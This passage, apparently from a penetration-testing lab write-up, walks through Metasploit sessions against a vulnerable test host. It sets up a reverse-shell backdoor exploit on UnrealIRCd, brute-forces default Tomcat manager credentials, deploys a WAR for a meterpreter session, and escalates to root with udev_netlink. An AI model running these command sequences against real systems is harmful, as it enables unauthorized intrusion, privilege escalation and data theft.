msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 10
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 192.168.1.101
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run
```



Here we got a **root** shell to the target system by connecting to the backdoor present in the ircd service. Now we can perform anything on the target as we have the root shell to the target like stealing sensitive data and file etc...

---
## Service running on port 8180 http -> Apache tomcat/coyote JSP engine 1.1

Here we have an another web-server running on the target port 8180 which is apache tomcat server, a pure java based server used to execute the java-application on the server. Apache Tomcat is an open-source application server designed to run Java applications, primarily Java Servlets and JSPs. Coyote is the HTTP connector component within Tomcat that allows it to serve HTTP requests and JSP pages. The Coyote JSP engine processes JSP files on the server, dynamically generating HTML content to be sent to users' browsers.

Tomcat with Coyote is commonly used for:
1. Web-Application Hosting.
2. Testing Java-based applicaion.
### Identifying Vulnerabilites or Weaknes
1. **Default or Weak Credentials** As the target tomcat server is configured with default crudential, then we can perform the **bruteforce attack** to find the crudential for the running server.
2. **Manager Application Access**  If accessible, the /manager application allows deploying or undeploying WAR files, potentially giving attackers control over the server if we get the crudential.

### Exploitation 
##### Bruteforce attack using mgr_login module
```
msfconsole -q
msf > search mgr_login
msf > use search auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(scanner/http/tomcat_mgr_login) > show options
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 192.168.1.103
msf auxiliary(scanner/http/tomcat_mgr_login) > set Anonymous_login true
msf auxiliary(scanner/http/tomcat_mgr_login) > set Black_passwords true
msf auxiliary(scanner/http/tomcat_mgr_login) > run
```



Here we get that the server is set to used the default crudential as **username= tomcat** and **passowrd=tomcat**.
##### Exploitation of Manager Application Access using crudential
```
msfconsole -q
msf > search mgr_deploy
msf > use exploit/multi/http/tomcat_mgr_deploy
msf exploit(multi/http/tomcat_mgr_deploy) > show options
msf exploit(multi/http/tomcat_mgr_deploy) > set HttpUsername tomcat
msf exploit(multi/http/tomcat_mgr_deploy) > set HttpPassword tomcat
msf exploit(multi/http/tomcat_mgr_deploy) > set RHOSTS 192.168.1.103
msf exploit(multi/http/tomcat_mgr_deploy) > set RPORT 8180
msf exploit(multi/http/tomcat_mgr_deploy) > run
```


Hence, we got a meterpreter session with the remote server as 'tomcat55' user.

### Post-Exploitation things
Since we have the remote access, but we has a shell as a 'tomcat55' user which is a normal user and we can't have the root access and So we can't able to see the sensitive file and content of the system due to limited access of our user. 
Here we are going to esculate the privilages to get the higher access to the system, like root user, so that we can completely control the target..

For that we had a metasploit module which can help us in privilege escalation, and also 'background the privious tomcat55 user session'.
```
msfconsole -q
msf > search udev_netlink
msf > use exploit/linux/local/udev_netlink
msf expliot(linux/local/udev_netlink) > show options
msf expliot(linux/local/udev_netlink) > set session 1
msf expliot(linux/local/udev_netlink) > run
```




By using this module we had gained the root shell on the target. Now we can perform anything on the target as we have the root access like stealing data and sensitive file etc and other stuff... 

**We can also try login to tomcat via our browser, for that we need to get the login page** ->
```
msfconsole -q
msf > search tomcat_adminstration
msf > use auxiliary/admin/http/tomcat_adminstration
msf auxiliary(admin/http/tomcat_adminstration) > show options
msf auxiliary(admin/http/tomcat_adminstration) > set RHOSTS 192.168.1.103
msf auxiliary(admin/http/tomcat_adminstration) > run
```

Here we get the login url for tomcat 'http//192.168.1.103:8180/admin'. Now we can explore more funtionality of the tomcat server.
